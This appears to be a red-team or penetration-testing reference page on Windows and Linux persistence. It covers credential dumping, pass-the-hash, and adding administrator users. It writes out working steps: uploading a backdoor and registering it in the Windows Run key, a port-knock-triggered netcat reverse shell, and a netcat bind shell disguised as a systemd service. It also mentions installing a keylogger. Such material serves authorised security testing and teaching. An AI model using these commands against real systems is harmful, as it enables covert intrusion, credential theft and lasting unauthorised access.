 # Methods of Persistence
1) [Passwords](#Passwords)
   1) [Pass the Hash](#Pass-the-Hash)
   2) Crack the Hash
2) [Backdoor](#Backdoor)
3) [New User](#New-User)
4) [DLL Preloading / DLL Hijacking](../DLL_Preloading/README.md)
5) [Unquoted Service Paths](../UnquotedServicePaths/README.md)

# Passwords
1) [Get Windows passwords with mimikatz](../../Tools/Credentials_Cryptography/mimikatz/README.md)
2) [Get Windows passwords and hashes with Meterpreter](../../Tools/Metasploit/README.md#Get-Windows-Credentials).
3) [Get SMB Hashes with Meterpreter](../../Tools/Metasploit/README.md#Capture-SMB-Hashes).
4) [Use Windows Credentials Editor](../../Tools/Credentials_Cryptography/WCE/README.md)

### Pass the Hash
1) [Use Meterpreter SMB module and specify SMBPass as the capture hash](../../Tools/Metasploit/README.md#Establish-Reverse-Shell-with-SMB).
2) RDP with password or pass the hash.
   1) Check if RDP is enable by attempting a connection.  Do this before enabling RDP to know to disable RDP, when done with the engagement.
   2) Enable RDP with [Meterpreter](../../Tools/Metasploit/README.md#Enable-RDP) or [Windows](../../Tools/Shells/Windows/CMD/README.md#Start-Service).
   3) [Add user to group "Remote Desktop Users"](../../Tools/Shells/Windows/CMD/README.md#Add-User-to-a-Local-Group).
   4) [Pass the Hash over RDP](../../Tools/RDP/freerdp/README.md#Pass-The-Hash).

    [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://blog.harmj0y.net/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)

# Backdoor
##### Steps
1) Upload backdoor to victim.
2) Execute at prefixed times.
3) Automatically run on boot.

##### Methods
1) [Meterpreter](../../Tools/Metasploit/README.md#Persistence)
2) Manually from Meterpreter
   1) Upload payload created with msfvenom, Veil, BDF, etc. ```meterpreter > upload /root/backdoor.exe C:\\Windows\```
   2) Edit Windows Registry ```meterpreter > reg setval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -d "C:\Windows\backdoor.exe" -v MyBackdoorName```

# New User
1) [Add user](../../Tools/Shells/Windows/CMD/README.md#Add-User).
2) [Add user to group "Administrators"](../../Tools/Shells/Windows/CMD/README.md#Add-User-to-a-Local-Group).


# Xinetd UDP Portknock Backdoor
##### [Step 1 - On Target, create xinetd service](https://gist.github.com/anonymous/3cb8e474b6bb3fd3787bda1e1a55cf56)
[Local File](../../Tools/Shells/Persistence/xinetd/xinetd_server.sh)

It requires that netcat is on the target, in the /bin directory.  It copies netcat to file /bin/services.udp.
##### Step 2 - Start netcat listener on Attack machine
```bash
nc -lnvp <Port #>
```
##### Step 3 - Send a single UDP packet to target, "knocking," and causing the target to establish a reverse shell.
```bash
hping3 -2 -c 1 <Target IP Address> -p 65534
```

### Portknocking References
[Port knocking](https://en.wikipedia.org/wiki/Port_knocking)

# Systemd Netcat Bind Shell
##### Step 1 - On Target, copy netcat to a new file, in /lib/systemd directory.
```bash
cp /bin/nc /lib/systemd/systemd-service
```
##### Step 2 - On Target, create file /lib/systemd/system/systemd-service with following contents
[systemd-service](../../Tools/Shells/Persistence/Systemd/systemd-service)
```bash
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = /lib/systemd/systemd-service -lvp 56825 -e /bin/sh
[Install]
WantedBy = multi-user.target
```
##### Step 3 - On Target, enable & start service
```bash
systemctl enable systemd.service
systemctl start systemd.service
```
##### Step 4 - Confirm that port is listening on the target
```bash
netstat -auntp | grep 56825
```
##### [Step 5 - From Attack machine, establish shell (Note Port # 56825)](../../Tools/Shells/Bind/README.md#Netcat-Bind-Shell)

# Meterpreter - Windows
1) [Check process ID](../../Tools/Metasploit/README.md#Get-Processes).
2) Migrate to SvcHost.exe [by Process ID](../../Tools/Metasploit/README.md#Migrate-to-Another-Process-ID) or [by Process name](../../Tools/Metasploit/README.md#Migrate-to-Another-Process-Name).
3) [Retrieve password hashes from victim](../../Tools/Metasploit/README.md#Get-Windows-Credentials).
4) [Pass-the-Hash with psexec](../../Tools/Metasploit/README.md#Establish-Reverse-Shell-with-SMB).
5) [If psexec fails due to STATUS_ACCESS_DENIED, update the registry on the target](../../Tools/Metasploit/README.md#Update-Registry-to-Allow-SMB-Access).
6) If user changes password, we will lose access.
   1) Install keylogger.
   2) Add new user to machine. 
      1) Check if RDP is enable by attempting a connection.  Do this before enabling RDP to know to disable RDP, when done with the engagement.
      2) Enable RDP with [Meterpreter](../../Tools/Metasploit/README.md#Enable-RDP-and-Add-User). 
7) [Create backdoor](../../Tools/Metasploit/README.md#Persistence). 